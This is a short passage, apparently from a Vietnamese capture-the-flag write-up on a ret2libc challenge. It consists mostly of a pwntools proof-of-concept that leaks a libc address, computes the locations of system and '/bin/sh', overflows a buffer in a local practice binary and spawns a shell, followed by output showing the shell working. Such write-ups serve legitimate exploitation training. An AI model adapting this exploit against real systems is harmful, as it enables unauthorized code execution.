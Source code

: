 ```nasm
```

như vậy là ta đã có hội đủ các yếu tố, bây giờ thử build PoC
```py
from pwn import *

p=process('./ret2libc')

p.recvuntil('Printf() address : ')
stackAddr = p.recvuntil('\n')
stackAddr = int(stackAddr,16)

libc = stackAddr - 0x513a0
system = libc + 0x3d250
bin_sh = libc + 0x17e3cf


payload = 'A'*0x52
payload +=p32(system)
payload += 'AAAA'
payload += p32(bin_sh)
# payload += p32(0)

p.sendline(payload)

p.interactive()
```	

```nasm
$ python script.py 
[+] Starting local process './ret2libc': pid 8389
[*] Switching to interactive mode
$ id
uid=1000(xfeebe) gid=1000(xfeebe) groups=1000(xfeebe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),998(docker)
$  
```